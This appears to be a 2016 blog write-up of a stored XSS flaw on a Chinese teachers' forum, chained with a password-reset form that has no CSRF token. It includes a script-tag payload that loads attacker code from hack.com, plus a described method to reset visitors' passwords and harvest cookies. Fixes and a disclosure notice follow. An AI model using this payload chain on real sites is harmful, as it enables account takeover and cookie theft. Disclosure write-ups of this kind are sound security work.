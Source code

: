 title: Compromise Arbitrary Account on a Chinese Teacher Forum
sub_title: Reset User's Password by Exploiting Stored XSS
date: 2016-08-20

Find and Exploit XSS:
=====================

I was doing some random browsing on the internet today and found a
website very “interesting”.

[*http://update_after_fix*](http://update_after_fix) is a Chinese
teachers forum. Basically you can register an account, open classes
online, download&upload resources, discuss on topics and do all kinds of
teaching related stuff.

Then I registered an account and did some random testing. After a few
tries, I found some stored XSS vulnerabilities on the website.

In the comment page, it seems the backend server does nothing except
escaping quotes.

This can be simply by passed using fromCharCode function in javascript.

<p align="center">
<img height="232" src="https://lh5.googleusercontent.com/XEBusQGtEtqhpyjNySZZfUl4q6Ij4PRpowDtUAWMPH9YJaBm0naTI3B8Uk7Asa4rN-Eqkx5NbFA_JwW_u275rFw1fe3aQGhurc1gJ1RaM8loI_RGOV3O9jogS2yZvdZ-7VVx1--2" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Vulnerable comment page
</p>
Similarly, in user’s diary and user’s education record, every input is
not filtered correctly and leave the site vulnerable to attackers.

<p align="center">
<img height="153" src="https://lh4.googleusercontent.com/cbNe5Tdoih9jtaeRttfYahKOFBXjNkErzAlHNwOjgGg2x5Dn5UMixaAgjroedh2YOan9v7MxZJ377wjL1CkuC4Y2h2C8SaGF4aiET5nlTbt3czZDNgwYXjEBvc4uvkNVtje2Lf91" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Stored xss example
</p>
Cookie is not set to http-only and I also generated the alert on
document.cookie.

<p align="center">
<img height="105" src="https://lh5.googleusercontent.com/0ebGfYdDUG5P84G2OTgqVmAwZUY1-351TJ6C6HoV1i62-hPJeHxLwQ6DI25VHAyKGzHhj1zWzExqYjHrxp-PK326WWiffjRtgiFqpuxMyaRd_NMgb_d1oJ1vlf2VWzdFm7HOyBfG" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Get document cookie
</p>
Then I decided to report this issue to the website administrator. But
since at that time was at night in China, maybe the admin was still
sleeping. So I thought it would be more convincing if I can give some
serious POC.

After some browsing, I found a big security weakness that can be
exploited.

In the “reset password” panel, old password is not needed at all. This
means a user can reset his password just based on his current session.
This is a silly design.

<p align="center">
<img height="246" src="https://lh5.googleusercontent.com/2UD5-7ZVANtZscpy8lijTUVLarlashrhvE5ZckmDDNY5mabFNdm-_yfLC-3_MYMrentlMucoTd2LnjkImVpR_QTNsGv-wMGdbEuSw0XGm8g4GcMUI9XA_c-Q4Sc8-uJENUZd4WVz" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Password update page
</p>

I captured the packet used to reset password,

<p align="center">
<img height="213" src="https://lh4.googleusercontent.com/ROA-FWVQFThS5yTIhSlESd2Nxl3O6hQFC0ugueEcMivDg4KDmKNbC5qyDih_jlg3w1xYSX8nTc8lfB_EU_jDuSUCdY6avAcsJJ8lOuIke_n6wTbCCTfc-K0yoHhUCm5HlO33cM1u" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Reset password packet
</p>
By looking into the packet, I found that the process has no csrf token
and it is a perfect vulnerability to exploit XSS.

Then I wrote a simple POC.

<script src="https://gist.github.com/rundongliu/c586fd7f62734e5ac2590b6e03328b74.js"></script>
I tried to inject the code into the input but the backend server did
some length checking.

Then I uploaded the code onto my server and tried to inject

&lt;script
src=http://hack.com/hack.js&gt &lt;/script&gt;
as input

Since the server escapes quotes, I did not add quotes to the url. I
tested firefox and chrome, they both works fine.

After that, I tested it in my browser, and captured the result.

<p align="center">
<img height="202" src="https://lh3.googleusercontent.com/nFG5jpwOFBnnvPv4in8jsomeyFdLBj6xh6nsiupMLOps3d92XsfdqY1yJeqxKvIZUjizpRgfwY03-eV-GFPyQWjFD3ZT2ez0hDovZJYU3Tc0WSUmiiUq6QLwuJ6aR2vyMS5xQcXl" style="border:2px solid black; transform: rotate(0rad);" width="400">
</p>
<p align="center">
Reset password success
</p>
Bang, we are able to reset any account’s password. If any logged in user
visits this page, his password will be set to “hahaha”. :)

Since the cookie contains account’s username in it. We can also add one
line of code to harvest the compromised cookie.

This is very easy to do and I will not demonstrate the details.

Now, we can sit in front of our computer and wait to harvest compromised
accounts!

Conclusion:
===========

By writing this blog, I want to demonstrate how serious XSS is. An
attacker can use it to do lots of stuff and cause huge damage.

The most important thing is

Web developers should know about security.
------------------------------------------

To fix these issues,

1 Correctly filter user input.

2 Add csrf token for sensitive operations.

3 Set cookie to http-only

4 Validate user when resetting password

Notice:
=======

All the test are done on my own homepage and can not be accessed by
other users. I deleted the script comment as soon as I finished testing.

I could have done this on this website’s main page but this would have
severely damage other users’ experience.

I have reported this vulnerability to related party and they will
probably fix it soon.

My test is only for POC and reporting bugs to administrator, please do
not use this to do bad stuff.

**Visit**
[***blogger***](https://rundongliu.blogspot.com/2016/08/reset-users-accounts-by-exploiting.html)
**to comment.**
